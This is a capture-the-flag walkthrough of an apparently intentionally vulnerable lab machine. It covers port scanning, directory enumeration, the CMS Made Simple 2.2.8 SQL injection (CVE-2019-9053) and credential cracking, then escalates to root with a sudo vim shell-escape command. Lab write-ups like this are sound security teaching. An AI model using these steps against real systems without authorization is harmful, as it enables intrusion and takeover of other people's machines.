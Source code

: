 I begin by scanning the IP with nmap: \`nmap \-sC \-sV \-oA ctf1/scan 10.10.75.135\`

```  
\# Nmap 7.95 scan initiated Thu Apr 10 16:29:02 2025 as: /usr/lib/nmap/nmap \--privileged \-sC \-sV \-oA ctf1/scan 10.10.75.135  
Nmap scan report for 10.10.75.135  
Host is up (0.12s latency).  
Not shown: 997 filtered tcp ports (no-response)  
PORT 	STATE SERVICE VERSION  
21/tcp   open  ftp 	vsftpd 3.0.3  
| ftp-syst:  
|   STAT:  
| FTP server status:  
|  	Connected to ::ffff:10.6.25.18  
|  	Logged in as ftp  
|  	TYPE: ASCII  
|  	No session bandwidth limit  
|  	Session timeout in seconds is 300  
|  	Control connection is plain text  
|  	Data connections will be plain text  
|  	At session startup, client count was 2  
|  	vsFTPd 3.0.3 \- secure, fast, stable  
|\_End of status  
| ftp-anon: Anonymous FTP login allowed (FTP code 230\)  
|\_Can't get directory listing: TIMEOUT  
80/tcp   open  http	Apache httpd 2.4.18 ((Ubuntu))  
|\_http-server-header: Apache/2.4.18 (Ubuntu)  
| http-robots.txt: 2 disallowed entries  
|\_/ /openemr-5\_0\_1\_3  
|\_http-title: Apache2 Ubuntu Default Page: It works  
2222/tcp open  ssh 	OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:  
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)  
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)  
|\_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)  
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux\_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
\# Nmap done at Thu Apr 10 16:29:56 2025 \-- 1 IP address (1 host up) scanned in 53.75 seconds  
```

There are 3 ports open: 21, 80, and 2222\. All of these can be useful for us when trying to think of ways to breach the system. The attack surface of this system is nice to work with \- especially when one of the vectors is exploiting the insecure design.

The web server this machine is hosting redirects to the default Apache webpage. But this does not necessarily indicate the site is empty, so I decided to look deeper with gobuster to see if there was anything else hidden. Gobuster is really handy and easy to use, not to mention \- a very fast tool.

Using this command:

`gobuster dir -u 10.10.75.135 -w directory-list-2.3-medium.txt -t 100`

Gobuster shows me that there is indeed another page with the path: `/simple`.

Navigating to /simple brings me to a website called CMS Made Simple. The version is 2.2.8. The version of the website out in the open like this makes my job a lot easier when trying to find exploits that will work.

![][/security.github.io/images/simple/cms_simple.png]

After a quick Google search, I was able to find that this version of CMS Made Simple is vulnerable to a SQL injection exploit (CVE-2019-9053).

https://www.exploit-db.com/exploits/46635

This SQLi Python script extracts the hashed password and cracks it, enabling access to the target system. The results were:

```  
Username: mitch  
Email: admin@admin.com  
Password: 0c01f4468bd75d7a84c7eb73846e8d96  
Cracked Password: secret  
```

Now I am able to ssh into mitch's computer using: \`ssh mitch@10.10.75.135 \-p 2222\` with the password:

![][/security.github.io/images/simple/SSH.png]

Once inside, the User flag: user.txt is readily available for me to capture. Easy\! 

My next order of business is to see what sudo commands the users here can run. Using \`sudo \-l\`, I am able to see that Mitch is able to run /usr/bin/vim as a root user without a password. 

After looking online, I found out that Vim can be used to *break out of restricted environments by spawning an interactive system shell*. This is a huge vulnerability and gives us the ability to escalate our privileges to become the root user \- with this simple command: \`sudo vim \-c ':\!/bin/sh'\`.

![][/security.github.io/images/simple/sudovim.png]

There you go \- I have achieved privilege escalation. After navigating to the root directory, I was able to finally find the root flag:

![][/security.github.io/images/simple/final.png]

Whoever is running this website needs to seriously work on the security!
